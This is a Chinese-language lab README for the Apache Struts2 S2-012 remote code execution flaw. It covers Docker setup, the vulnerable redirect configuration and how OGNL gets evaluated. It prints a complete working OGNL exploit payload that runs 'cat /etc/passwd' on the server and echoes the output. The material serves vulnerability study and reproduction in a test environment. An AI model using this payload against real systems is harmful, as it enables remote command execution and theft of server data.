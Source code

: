 # S2-012 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.13

漏洞详情: http://struts.apache.org/docs/s2-012.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## Exp

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符（为什么？）。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

![](1.png)